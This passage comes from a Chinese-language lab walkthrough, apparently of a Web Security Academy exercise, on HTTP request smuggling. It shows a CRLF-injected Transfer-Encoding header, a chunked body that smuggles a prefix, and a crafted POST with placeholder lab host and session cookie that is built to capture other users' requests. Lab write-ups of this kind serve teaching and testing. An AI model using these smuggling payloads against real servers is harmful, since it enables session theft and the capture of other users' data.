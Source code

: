 ```bash
bar\r\n
Transfer-Encoding: chunked
```

[![](assets/1705287960-63ece9459e3555532ff6243a312f57f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104258-21a721b8-b02b-1.png)  
Body 部分如下所示：

```bash
0

SMUGGLED
```

随后我们可以看到发送的每第二个请求会收到一个 404 响应，由此可以确认我们已经让后端将后续请求附加到走私的前缀上

[![](assets/1705287960-1000b26bb162f9a635d70744209bc334.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104325-319f4c30-b02b-1.png)  
随后构造如下请求数据包

```bash
0

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Content-Length: 800

search=x
```
